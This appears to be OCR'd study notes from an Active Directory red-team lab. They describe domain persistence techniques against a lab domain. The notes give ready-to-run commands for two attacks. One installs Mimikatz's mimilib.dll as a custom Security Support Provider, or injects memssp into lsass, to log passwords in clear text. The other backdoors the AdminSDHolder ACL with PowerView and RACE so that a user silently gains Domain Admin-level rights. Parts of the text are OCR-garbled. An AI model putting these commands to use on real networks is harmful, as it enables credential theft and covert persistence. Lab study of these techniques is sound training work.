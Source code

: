 ls \\dcorp-dc\C$
-----------------------------------------------------------------------------------------------------
                                                                        BONUS! --> Order of usage :-
                                                                      SILVER > DIAMOND > GOLDEN
-----------------------------------------------------------------------------------------------------
Custom SSP - (pretty useful but pretty dangerous as well)
A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are
NTLM
Kerberos
Wdigest
CredSSP
Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
Usage either of the ways :-
Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages -
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable) -
Invoke-Mimikatz -Command '"misc::memssp"'
NOTE-  All local logons on the DC are logged to C:\Windows\system32\mimilsa.log
BONUS! --> "World readable directory on DOMAIN CONTROLLER --> sysvol"
AdminSDHolder - using ACLs (no 4662 record, so not a attack noisy )
METHODOLOGY --> Basically, We are our own user to the AdminSDHolder group, so it will be added to a all the protected groups hourly!
Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups).
Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.
Protected Groups -->

Well known abuse of some of the Protected Groups - All of the below can log on locally to DC

With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it
Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA -
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 - Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Using ActiveDirectory Module and RACE toolkit - (https://github.com/samratashok/RACE)
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 - Right GenericAll -DistinguishedName'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder -
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
